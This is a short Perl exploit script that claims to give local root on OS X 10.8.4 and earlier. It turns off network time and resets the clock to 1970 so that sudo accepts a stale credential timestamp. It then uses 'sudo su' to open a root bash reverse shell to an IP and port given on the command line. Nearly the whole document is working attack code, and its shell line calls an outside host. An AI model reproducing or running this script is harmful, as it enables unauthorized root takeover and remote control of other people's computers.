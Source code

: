 EXP
---

    #!/usr/bin/env perl

    $num_args = $#ARGV + 1;
    if ($num_args != 2) {
        print "\nUsage: exploit.pl ip.add.re.ss port\n";
        exit;
    }

    print "\n";
    print "=============================================================================================================\n";
    print " - OSX <= 10.8.4 Local Root Priv Escalation Root Reverse Shell by ";
    print " - [Bek Umarov @ HackEd]\n";
    print " - Reference: http://www.exploit-db.com/exploits/27965/\n";
    print "=============================================================================================================\n";
    print "\n";


    my $ipaddr = @ARGV[0];
    my $port   = @ARGV[1];

    my $proc = `systemsetup -setusingnetworktime Off -settimezone GMT -setdate 01:01:1970 -settime 00:00;sudo su -c "bash -i >& /dev/tcp/$ipaddr/$port 0>&1 &"`;

    print "[*] Exploit has been performed. You should have a shell on ipaddr: $ipaddr and port $port\n\n";